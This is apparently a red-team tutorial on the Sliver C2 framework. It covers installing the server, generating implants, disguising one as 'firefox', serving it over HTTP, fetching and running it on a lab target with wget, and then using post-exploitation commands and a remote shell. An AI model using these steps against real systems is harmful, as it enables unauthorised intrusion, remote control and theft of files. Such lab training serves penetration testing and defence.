

Published: November 16, 2025
Sliver is a modern, open-source Command and Control (C2) framework developed by BishopFox, designed for penetration testers and red teamers. Unlike traditional C2 frameworks, Sliver offers cross-platform support, multiple communication protocols, and built-in operational security features that make it a powerful tool for adversary simulation and security testing.
What you'll learn in this guide:
Before starting this tutorial, ensure you have:
This guide focuses on sessions for simplicity, but beacons are recommended for real-world engagements.
Sliver provides an automated installation script that handles all dependencies. Run the following command to download and install:
curl https://sliver.sh/install | sudo bashThis script will:
/usr/local/bin/sliver-serverAfter installation completes, verify that the Sliver service is running correctly:
sudo systemctl status sliverYou should see output indicating the service is active (running). If the service is not running, start it manually:
sudo systemctl start sliversudo systemctl enable sliver
To generate Windows implants from your Linux system, you'll need the Mingw-w64 toolchain:
sudo apt install mingw-w64This package provides the necessary compilers and libraries to build Windows executables and DLLs from Linux. Without it, you'll only be able to generate implants for your host operating system.
Launch the Sliver command-line interface by simply typing:
sliverYou'll be greeted with the Sliver prompt, indicating you're ready to start creating implants and managing sessions.
help command is your primary resource for learning Sliver. Here's how to use it:
help - Lists all available commands with brief descriptionshelp <command> - Shows detailed usage, flags, and examples for a specific commandhelp generate - Learn about implant generation optionshelp mtls - Understand MTLS listener configurationAlways consult help when exploring new functionality or troubleshooting issues.
generate - Creating ImplantsThe generate command creates new implant binaries. You must specify at least one C2 protocol and can customize the target platform:
generate --mtls <IP:PORT> --os <windows|linux|macos> --arch <amd64|386> --save <path>mtls, http, https, dnsThese commands start listeners for their respective protocols. Listeners wait for incoming connections from deployed implants:
mtls --lhost <IP> --lport <PORT>sessions - Managing Active ConnectionsView, interact with, or terminate active sessions:
sessions - List all current sessionssessions -i <ID> - Interact with a specific sessionsessions -k <ID> - Kill a sessionuse - Switching to a SessionDrop into an interactive session for direct command execution:
use <session_id>background - Backgrounding SessionsReturn to the main Sliver shell while keeping the session active:
backgroundjobs - Viewing Active ListenersDisplay all running listeners and background tasks:
jobs| Operating System | File Format | Description |
|---|---|---|
| Windows | .exe |
Portable Executable - Standard Windows application format |
| Windows | .dll |
Dynamic-Link Library - Shared library for sideloading attacks |
| Linux | ELF |
Executable and Linkable Format - Standard Unix/Linux executable |
| macOS | Mach-O |
Mach Object - Native macOS/iOS executable format |
Let's create a Windows implant using the MTLS (Mutual TLS) protocol, which provides encrypted, authenticated communication:
sliver > generate --mtls 192.168.140.128:443 --os windows --save /home/kaliCommand breakdown:
--mtls 192.168.140.128:443 - Specifies the C2 server IP and port the implant will callback to--os windows - Target operating system--save /home/kali - Directory to save the compiled implantYou'll see output similar to:
[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 30s
[*] Implant saved to /home/kali/BIG_FENCING.exeThis walkthrough demonstrates the complete process of generating, delivering, and catching a Sliver implant on a Linux target system.
From the Sliver console, generate an MTLS implant for Linux:
sliver > generate --mtls 10.200.0.159:443 --os linux --save /home/kali/Replace 10.200.0.159 with your Kali machine's IP address (use ip a to find it). The implant will be saved with a randomly generated name like above-freezer.
Create a directory to organize your implant delivery:
mkdir webserver
mv above-freezer webserver/firefox
cd webserverRenaming the implant to something legitimate-sounding like firefox helps with social engineering and reduces suspicion during manual inspection.
Use Python's built-in HTTP server to host the implant:
python3 -m http.server 80This creates a simple web server on port 80, serving files from the current directory. Your implant is now accessible at http://<your-IP>/firefox.
Open a new terminal tab, launch Sliver again, and start the MTLS listener:
sliver > mtls --lhost 10.200.0.159 --lport 443Important: The IP and port must match exactly what you specified when generating the implant. Mismatched values will prevent callback.
Verify the listener is active:
sliver > jobs
ID Name Protocol Port
== ==== ======== ====
1 mtls tcp 443On your target Linux system, download and execute the implant:
# Download the implant
wget http://10.200.0.159/firefox
# Make it executable
chmod +x firefox
# Execute the implant
./firefoxThe implant will execute silently in the foreground. For persistent access, you'd typically background it or establish persistence mechanisms, but that's beyond the scope of this introductory guide.
Back in your Sliver console, you should see a new session notification:
[*] Session e8a4bc72 FREEZING_HARBOR - 10.200.0.200:45832 (victim-machine) - linux/amd64 - Sun, 16 Nov 2025 14:23:45 UTCList all active sessions:
sliver > sessions
ID Name Transport Remote Address Hostname Username Operating System Last Check-In
========== ================ ========== ===================== =============== ========= ================= =============
e8a4bc72 FREEZING_HARBOR mtls 10.200.0.200:45832 victim-machine ubuntu linux/amd64 0s agoInteract with your new session:
sliver > sessions -i e8a4bc72Now you're in an interactive session. Test with basic commands:
[victim-machine] sliver > whoami
ubuntu
[victim-machine] sliver > pwd
/home/ubuntuOnce inside a session, you have access to numerous post-exploitation commands. Here are the essentials:
whoami - Display current user and hostnamegetuid - Show user ID and group informationinfo - Display detailed session informationifconfig - Show network interfaces and IP addressesnetstat - List active network connectionsls - List directory contentscd <path> - Change directorypwd - Print working directorycat <file> - Display file contentsdownload <remote_file> <local_path> - Download files from targetupload <local_file> <remote_path> - Upload files to targetFor maximum flexibility, drop into a native shell:
[victim-machine] sliver > shellThis spawns an interactive shell (bash on Linux, PowerShell on Windows). You can now run any operating system command as if you were directly logged in.
Exiting the shell: Type exit and then press CTRL+D to return to the Sliver session.
To leave a session without terminating it:
[victim-machine] sliver > backgroundThis returns you to the main Sliver prompt while keeping the session active in the background. You can reconnect anytime using sessions -i <ID>.
Browse available packages:
sliver > armoryInstall a specific package:
sliver > armory install <package_name>Common useful packages include:
SharpHound - Active Directory enumerationRubeus - Kerberos abuse toolkitSeatbelt - Windows host enumeration--name flag for better session trackingUnderstanding Sliver helps defenders detect and respond to C2 activity:
jobshelp mtlssudo apt install mingw-w64This guide covered the fundamentals of Sliver C2. To continue your learning:
Sliver C2 is a modern, versatile framework that brings enterprise-grade capabilities to penetration testing engagements. Through this guide, you've learned:
Remember that C2 frameworks are powerful tools that require responsibility, authorization, and ethical use. Always operate within the bounds of your engagement scope and applicable laws. The knowledge gained here should be used to strengthen security postures, not compromise them.